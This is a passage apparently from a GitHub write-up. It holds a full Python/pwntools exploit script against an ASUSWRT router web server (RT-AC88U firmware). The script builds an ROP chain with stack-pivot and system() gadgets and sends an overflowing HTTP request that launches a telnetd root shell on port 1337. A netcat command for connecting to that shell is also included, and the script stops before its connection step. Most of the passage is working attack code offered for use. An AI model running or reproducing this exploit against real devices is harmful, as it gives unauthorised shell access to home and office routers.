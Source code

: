 or you can easily just connect to the router via netcat:

```
nc router.asus.com 1337
```

# Full Exploit Script

```python
"""
#  Author : Lucas Tay
#  Date : 13th APRIL 2020
# 
#  **Affected Models/Versions** 
#     ASUSWRT 3.0.0.4.384.20308 (2018/02/01)
#
#  **Vulnerability Analysis**
#     Firmware Analysed: 
#         - ***ASUSWRT 3.0.0.4.382.20308*** for ***RT_AC88U*** router
#
# Some Details:
#   Change the host address corresponding to router.asus.com
#   Can connect to router via netcat
#   Feel free to change the command but make sure that they are not in the blacklist
#       xssBlackList = ["<",">","%","(",")","&","script"]

"""
from pwn import *

context(arch='arm', bits=32, endian='little', os='linux')
HOST = "192.168.2.1"  # CHANGE THIS TO ADDRESS OF router.asus.com
PORT = 80 # This is the http port where the web interface is at

# The reverse shell inspired by Ngo Wei Lin
command = '/usr/sbin/telnetd -l /bin/sh -p 1337;'.replace('\x20', '\t').ljust(127,"#")
COMMANDADDR = 0x000a6250 + len("command=")

# ropper --file httpd_here --search "add sp"
stack_pivot_gadget = 0x0002acd8  # 0x0002acd8: add sp, sp, #0x400; pop {r4, r5, r6, r7, pc};  

# ropper --file httpd_here --search "pop"
pop_r7_gadget = 0x00010630   #0x00010630: pop {r1, r2, r3, r4, r5, r6, r7, pc};

# Searched from IDA
system_gadget = 0x00025BF4
"""
.text:00025BF4                 MOV             R0, R7  ; command
.text:00025BF8                 BL              system
"""

# Follow the response header copied from the browser
header = "GET /command=" + command +  "A"*(532-len(command)-len("command=")) +p32(stack_pivot_gadget)[:-1] +" HTTP/1.1\r\n"
header += "Host : router.asus.com\r\n"
header += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
header += "Accept: text/html,application/xhtml+xml,"+"A"*302+"application/xml;q=0.9,*/*;q=0.8"+p32(system_gadget)+"\r\n"
header += "Accept-Language: en-US,en;q=0.5\r\n"
header += "Accept-Encoding: gzip, deflate"+"C"*339+p32(COMMANDADDR)+"\r\n"
header += "Cookie: "+p32(system_gadget)+"clickedItem_tab=0\r\n"
header += "Connection: keep-alive\r\n"
header += "Upgrade-Insecure-Requests: 1\r\n"
header += "Cache-Control: max-age=0\r\n"
# Connect to the router
```